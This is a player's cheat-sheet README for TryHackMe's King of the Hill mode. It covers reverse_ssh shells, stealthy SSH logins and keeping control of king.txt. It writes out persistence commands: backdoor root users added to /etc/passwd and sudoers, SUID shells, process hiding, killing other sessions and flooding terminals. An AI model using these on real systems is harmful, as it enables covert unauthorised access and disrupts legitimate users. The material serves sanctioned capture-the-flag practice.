 # THM King of the Hill Guides

These are cheat sheets I put together during my sting playing TryHackMe's King of the Hill mode. It can be quite fun, though if the other players know the machine and you don't, then how well you do entirely depends on how much they let you do. Nevertheless I found *most* players were accommodating enough that I was able to fully enumerate every machine, and these kill sheets are derived from that alone (except for H1: Hard, which is er, really hard - needed a walkthrough for that one).

My recommendation to you if you are new? Try and enumerate yourself. Once root on a machine, use that access to run linpeas, check sudoers etc and find the other ways in. A lot of fun I had was just from find the nooks and crannies on each machine, rather than any competitive aspect.

## A Note on Reverse SSH

Most of my kill sheets were tailored to my hacking approach, which was to start a [Reverse SSH](https://github.com/NHAS/reverse_ssh) server on my machine via the following commands (update go, create ssh keys, setup server):

```
wget -q https://go.dev/dl/go1.18.linux-amd64.tar.gz && rm -rf /usr/local/go && tar -C /usr/local -xzf go1.18.linux-amd64.tar.gz && rm go1.18.linux-amd64.tar.gz
ssh-keygen -t ed25519 -P "" -f "/root/.ssh/id_ed25519" > /dev/null
git clone https://github.com/NHAS/reverse_ssh && cd reverse_ssh && git checkout unstable && RSSH_HOMESERVER=$(hostname -i):3232 make && cd bin/ && cp ~/.ssh/id_ed25519.pub authorized_keys && cp client* ~/ && ./server --external_address $(hostname -i):3232 :3232 &
```

(note the above is done as part of my [thm-setup.sh](../thm-setup.sh) script as well)

After setting up the server, I would set up a python webserver on port 1234 to made the client binaries available, and then pull and run these on various machines. So in a kill sheet, if you see a `LHOST:1234/client` set of instructions that is what it is doing.

What is the advantage of reverse_ssh? It gives an immediate fully stable shell on linux *AND* windows, communicates over its own channel so even if the SSH server on the machine is completely disabled it will still work, and doesn't rely on passwords, ssh keys that another user might delete etc. Very nice.

## General tips and tricks

- when you ssh into a machine (regular or via reverse_ssh), the argument `-T` will not create a /dev/pts/ file. This prevents you showing up in `who` or `pinky`, which can stop those assholes who like to kill shells or cat random data or nyan cat into your terminal
- any process can be hidden by mounting over it. e.g. if you have a bash process running, and you know its PID is 2385 for example, `mount -o bind /tmp /proc/2838` will hide it, meaning your process will not show when `ps aux` is run. note this can be easily seen by running `mount` as a super user.
- when root, if facing an adversarial opponent who is likely to close all major paths to root, create lots of ways of getting back:
  - creating more suid binaries, e.g. `cp /bin/sh /home/sh && chmod u+s /home/sh`
  - adding your public key to /root/.ssh/authorized_keys
  - changing the root password
  - running reverse_ssh binaries
  - adding new users to /etc/passwd, e.g. `echo 'user3:$1$user3$rAGRVf5p2jYTqtqOW5cPu/:0:0:/root:/bin/bash' >> /etc/passwd` will create basically a second root user, with password `pass123`
  - creating a user who can sudo to root: `useradd aquinas && (echo -e "thisisatest\nthisisatest" | passwd aquinas) && (echo "aquinas ALL=(ALL:ALL) NOPASSWD:ALL" >> /etc/sudoers)`
- you can wipe other sessions with something like this: `/bin/ls /dev/pts/* | /usr/bin/cut -c 6- | /usr/bin/xargs -I T pkill -9 -t T`. Note this only works against people who *have* a pts, e.g. didn't use `-T`. And I suggest only using it after someone has tried to kill your session. Don't be a dick.
- if someone is being really annoying, cat `/dev/urandom > /dev/pts/[id] &` is the nuclear option: the stream of random data will likely ruin their entire terminal. It'll keep running until they give up, at which point you will get a file read/write error or something.

## King Persistence

Aside from being root and kicking other users off like a wanker, the true troll just focuses on controlling king.txt. Let them be root, let everyone be root! They still can't become king if they can't figure out how to update the file. My approach for this is to escalate based on what I'm facing, e.g. the following tiers:

1. just put your name in king.txt
2. make it immutable: `/usr/bin/chattr +i king.txt` on linux and `attrib +r king.txt` on windows
3. delete chattr (its allowed). on windows you can't delete attrib even as system, but you could use `attrib +s king.txt` to also make it a system file to further harden it
4. create a bash loop to keep yourself as king. this works: `while true; do (echo Aquinas > /root/king.txt); sleep 0.1; done 2>/dev/null &`. Note, dont put this in a file and run it - I *will* find your file and put my name in it, plus the whole command will show up under PS. Running straight in your terminal will likely only show sleep 0.1. sleep could even be omitted, but it has the advantage that if they use pspy64 to try and figure out whats going on they will see a wall of sleep commands.
5. drop the 'nuclear option': this is a binary I call [kingmaker](tools/kingmaker.c), which combines chattr plus setting the file content plus stealth to make it very hard to find - only one person I've played where it has come to this has managed to find and kill the process, props to him (flint)

There is dickery beyond this thats possible, i.e. doing something violent with LD_PRELOAD, but I've never seen the point.

Defense tips:

- despite the sleep wall thing I mentioned, [pspy64](https://github.com/DominicBreuker/pspy) is a good tool to see whats happening, it will often find sneaky binaries that are being run etc
- chattr gets deleted all the time; some people then pull on a copy of it from busybox; I've seen obfuscation of this by naming it all sorts of things. Remember it will usually have the same *size*, something like `find / -size 36464c 2>/dev/null` willt rack it down.
- in the same vein, why not be extra sneaky and just create your own! I wrote [mf.c](tools/mf.c), which performs the same function as chattr and is trivial to compile and copy across. You can even use it in a loop to keep king mutable: `while true; do (/mf /root/king.txt 0); sleep 0.1; done &` (or immutable, if you wish, via subbing `16` for `0`).

